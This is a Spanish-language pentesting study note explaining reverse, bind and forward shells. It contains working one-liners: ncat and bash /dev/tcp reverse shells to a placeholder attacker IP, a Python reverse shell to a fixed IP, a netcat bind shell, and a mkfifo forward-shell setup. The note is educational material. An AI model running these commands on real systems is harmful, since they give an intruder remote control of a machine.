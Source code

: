 ```yaml
--- 
- Tags: #explotación #basico #teoria
---
```


# Reverse Shell

### Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, premitiéndole tomar el control de la máquina remota. 

### En el ejemplo de la imagen, supongamos que la maquina victima tiene expuesto un puerto :80, con un servicio de apache2, el cual, es vulnerable a **RCE** (Remote Code Execution), una vez pudiendo ejecutar comandos como la maquina victima, al atacante le interesaria enviarse una consola interactiva por un puerto que el decida.

![[reverseShell.png|1000]]

### Algunos one liners tipicos para lograr esto son:

#### Haciendo uso de net cat:
```shell
ncat -e /bin/bash {IP_atacante} {puerto}
```

#### Haciendo uso de bash:´
```shell
bash -i >& /dev/tcp/{IP_atacante}/{puerto} 0>&1 
```

#### Haciendo uso de python: 
```python 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.38",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

#### Más oneliners [aca](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


# Bind Shell 

### Esta técnica es el opuesto de la **Reverse Shell**, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante por ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma. 

### En este caso, en el ejemplo de la imagen, el atacante al explotar el **RCE**, inyecta un comando malicioso, en este ejemplo `nc -nlvp 443 -e /bin/bash` que lo que hace es escuchar en el puerto 443 por conexiones, y cuando reciba una, otorgara la consola interactiva.

![[BindShell.png|1000]]

# Forward Shell 

### Esta técnica es utiliza cuando no se pueden estrablecer conexiones **Reverse** o **Bind** debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO (named pipe)**, que se utiliza como una espcie de **consola simulada** interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

### Ejemplo: 

#### Si ejecutaramos el sig comando...

```shell
mkfifo input; tail -f input | /bin/bash; 2>&1 > output 
```

#### ...veriamos que se creo un archivo **FIFO** llamado input y un archivo normal llamada output, la idea de esto es que ahora, haciendo uso de descriptores, podriamos redirigir  las entradas a input y ver las salidas de estas en output 

```shell
echo "Este comando se va a alojar en output" > input 
cat output 
#───────┬─────────────────────────────────────────────────
#       │ File: output
#───────┼─────────────────────────────────────────────────
#   1   │ Este comando se va a alojar en output
#───────┴─────────────────────────────────────────────────
```

 